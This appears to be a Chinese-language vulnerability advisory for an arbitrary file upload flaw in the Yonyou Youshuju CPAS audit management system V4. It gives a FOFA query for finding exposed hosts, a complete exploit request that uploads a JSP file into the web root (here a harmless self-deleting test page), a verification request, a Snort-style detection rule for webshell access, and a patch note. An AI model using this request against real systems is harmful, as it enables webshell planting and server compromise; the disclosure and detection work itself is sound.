


# 用友友数聚CPAS-upfile-文件上传

用友友数聚CPAS-upfile-文件上传

# 影响版本

友数聚CPAS审计管理系统 V4

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**  body="/cpasm4/static/cap/font/iconfont.css"​

**POC/EXP：**

**step1 上传文件**

```
POST /cpasm4/iWebPdf/upfile?filePath=/usr/cpasm/webapps/cpasm4/views/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:151.0) Gecko/20100101 Firefox/151.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary721c958e410bd27e69fa508ad36fb942
Content-Length: 352
Connection: keep-alive

------geckoformboundary721c958e410bd27e69fa508ad36fb942
Content-Disposition: form-data; name="file"; filename="abcdef.jsp"
Content-Type: image/png

<%="helloWorld"%><%new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------geckoformboundary721c958e410bd27e69fa508ad36fb942--
```

​​

**step2 验证文件**

```
GET /cpasm4/views/abcdef.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/152.0.0.0 Safari/537.36


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"用友友数聚CPAS - /cpasm4/views/ 文件上传后门访问 (JSP Webshell)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/cpasm4/views/";
        fast_pattern;
        content:".jsp"; distance:0; within:20; nocase;
    metadata:
        service http,
        affected_product "用友友数聚CPAS",
        vulnerability_type "File Upload (Webshell Access)",
        severity "critical";
    classtype:web-application-attack;
    sid:1000733;
    rev:1;
    priority:1;
)
```

# 漏洞修复

* **升级至安全版本**：联系用友或友数聚官方获取针对该漏洞的安全补丁或升级版本。官方已发布漏洞修复版本。

‍
